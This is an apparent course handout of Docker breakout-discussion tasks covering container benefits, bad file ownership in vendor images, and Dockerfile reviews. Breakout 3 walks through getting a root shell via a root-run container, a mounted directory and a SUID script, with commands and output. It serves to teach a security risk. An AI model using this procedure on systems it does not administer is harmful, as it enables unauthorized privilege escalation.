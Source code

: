 # Instructions for Breakouts for Week 04

Several breakouts are provided each week. Generally there won't be time to get to all of them. Instructors will select which ones and in what order they would like to use for their class each week. Instructors may choose to do some breakouts at the whole class level instead of using breakout rooms. For breakouts that we don't get to in class, that you are interested in, you can always come to office hours and discuss with the instructor or TA.

## Breakout 1 - Containers: the Good

Make a list and discuss the advantages of using containers: 

* Include microservices and images in your discussion.

* Include some examples of business cases / use cases.  Try to include a specific example that we haven't covered.

## Breakout 2 - Containers: the Bad

One major advantage of using containers is that we can leverage vendor container images to save us numerous hours of installation and setup work.

The bad side to this is that a lot of vendor products were designed long before containers were invented, or were designed by people lacking knowledge of containers, or were designed by people lacking a fundamental knowledge of Linux best practices, cybersecurity, etc.  

A lot of well known vendors have containers that have a lot of really bad decisions in them that cause major Linux issues, cybersecurity issues, etc.

A lot of times, a container is viewed as a "nice to have" and an afterthought rather than a fundamentally designed part of the product.  Often, on official images, I see comments like "Sorry about that, I'm an intern on my second week, and I've never used Docker before".   This seems incongruent with the way shops are pushing containers.  

Let's look at and discuss one common major bad decision:  ownership and permissions of files and directories used in remote mounts to containers.

Recall from one of this week's labs, "Lab: Docker - Persistence, Directory Mounting to Containers", that we have remote mounts to pass data to and from containers in the form of directories and files.  A lot of vendor products require files and directories to be owned by specific users and specific groups with specific permissions set.  If you change the ownership or permissions, the product may stop working outright, or parts of the product may not work, or part of the product may not work correctly.  So, we are stuck with using them.

Our directory /home/w205 is owned by w205 with group mids.  Linux best practices dictates that no file under /home/w205 should be owned by anything than w205 with group mids.  When running backups, we have already seen the major issues and security issues this causes.  We have to have access to sudo just to backup files.  When it's our machine, it's ok for us to have sudo access, however, in a production environment, it would be 100% unacceptable to grant every user who runs these images sudo access.

Several containers have these issues. 

Let's look at postgres.

The commands:
```
cd ~/docker/mounts/postgres

ls -l 
```
yields output:
```
drwxrw---- 19 libstoragemgmt root 4096 Jan 17 12:02 data
```

Discuss the following:
* Did postgres choose the user libstoragemgmt to own the files?
* What are the consequences to the user libstoragemgmt of the VM?
* Why is root the group?

Let's look at neo4j:

The commands:
```
cd ~/docker/mounts/neo4j

ls -l
```
yields output:
```
drwxrwxr-x 5 7474 7474 55 Nov 17 21:01 data
```

Discuss the following:
* Why is 7474 listed as the owner?
* Why is 7474 listed as the group?
* What would be the consequences if the VM has a user with id 7474?
* What would be the consequences if the VM has a group with id 7474?

## Breakout 3 - Containers: the Ugly

In the world of hacking, getting a "root shell" to a Linux box is the "Holy Grail".  Once hackers have a root shell, they have full access to the machine.  If SSH private keys are present on the server, they can use those private keys to gain access to even more servers, and so forth.  

When Docker is running as root, anyone who can run a Docker container, or access a Docker container, can easily get a root shell.  Here is the procedure:

Create a temporary directory:
```
cd

mkdir temp_root_shell

cd temp_root_shell
```
Run a docker container with the directory mounted:
```
docker run -it --rm -v /home/w205/temp_root_shell:/temp_root_shell continuumio/anaconda3:latest bash
```
You are now inside the container. Run the following and exit the container:
```
cd /temp_root_shell

echo \#\!/usr/bin/bash >root_shell.bash

echo sudo bash >>root_shell.bash

chmod 4777 root_shell.bash

exit
```
Back in the VM, we can see that the SUID (user + special) permission is set.  Notice the s in the usual place of the x.  This tells Linux to execute the process as the owner instead of the user.  In our case the user is w205 and the owner is root.  So the bash shell script root_shell.bash will give us a root shell!
```
ls -l 
```
which yields
```
-rwsrwxrwx 1 root root 21 Jan 24 19:32 root_shell.bash
```
Now we can run the script:
```
./root_shell.bash
```
Which yields a root shell:
```
[root@ip-172-31-71-148 temp_root_shell]#
```
We can verify user is indeed root:
```
whoami
```
Which yield 
```
root
```
Exit the root shell:
```
exit
```
Delete the temporary directory when we are done:
```
cd

rm -r temp_root_shell
```

What can we conclude about running Docker as root?
* Consider the case where we own the VM, such as our VM for w205, where we already have root access
* Consider the case of a corporate environment, where the VM is owned by an admin, and we should not have root access

Most vendor supplied images assume Docker will be run as root, and they will not run, or will not run correctly otherwise.  If we attempt to run Docker not as root, what would be the consequences?


## Breakout 4 - Review and discuss the Dockerfiles for container images used in this course

In the labs, we walked through the Dockerfiles for container images.  Review the Dockerfiles again and discuss them.

ucb_mids_w205_repo => labs => week_04 => lab_instructions_04.md

Scroll down to the section Lab: Docker - Creating an Image

## Breakout 5 - Review and discuss the documentation and Dockerfiles for the official images used in this course

In the labs, we walked through the documentation and Dockefiles for the official images used to build the custom container images used in this course.  Review the documentation and Dockefiles again and discuss them.

ucb_mids_w205_repo => labs => week_04 => lab_instructions_04.md

Scroll down to the section Lab: Lab: Docker - Examples of How Various Official Images are Built
